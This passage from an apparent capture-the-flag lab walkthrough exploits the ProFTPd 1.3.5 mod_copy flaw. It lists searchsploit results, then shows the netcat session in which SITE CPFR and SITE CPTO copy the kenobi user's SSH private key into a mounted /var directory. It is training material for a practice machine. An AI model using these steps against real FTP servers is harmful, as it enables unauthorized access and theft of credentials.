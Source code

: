 **2. Use searchsploit to find exploits**

* Searchsploit is CLI search tool for exploit-db.com

searchsploit proftpd 1.3.5

\---------------------------------------------- ---------------------------------

Exploit Title | Path

\---------------------------------------------- ---------------------------------

ProFTPd 1.3.5 - 'mod\_copy' Command Execution | linux/remote/37262.rb

ProFTPd 1.3.5 - 'mod\_copy' Remote Command Exe | linux/remote/36803.py

ProFTPd 1.3.5 - 'mod\_copy' Remote Command Exe | linux/remote/49908.py

ProFTPd 1.3.5 - File Copy | linux/remote/36742.txt

\---------------------------------------------- ---------------------------------

Shellcodes: No Results

* ProFtpd 1.3.5[ mod\_copy module](http://www.proftpd.org/docs/contrib/mod\_copy.html) vulnerable to exploit.
* mod\_copy implements **SITE CPFR** and **SITE CPTO** commands.
* Unauthenticated client can use commands to copy files from remote filesystem to chosen destination.
* log.txt shows that FTP service is running as Kenobi user in this example.

\# Set the user and group under which the server will run.

User kenobi

Group kenobi

* log.txt shows that SSH key generated for Kenobi user.

Your identification has been saved in /home/kenobi/.ssh/id\_rsa.

Your public key has been saved in /home/kenobi/.ssh/id\_rsa.pub.

The key fingerprint is:

SHA256:C17GWSl/v7KlUZrOwWxSyk+F7gYhVzsbfqkCIkr2d7Q kenobi@kenobi

**3. Copy Private key Using SITE CPFR and SITE CPTO Commands.**

nc 10.10.233.83 21

220 ProFTPD 1.3.5 Server (ProFTPD Default Installation) \[10.10.233.83]

SITE CPFR /home/kenobi/.ssh/id\_rsa

350 File or directory exists, ready for destination name

* Earlier nmap NFS enumeration scan showed that /var directory is mounted.
* Copy Kenobi's private key to /var/tmp directory.

SITE CPTO /var/tmp/id\_rsa

250 Copy successful
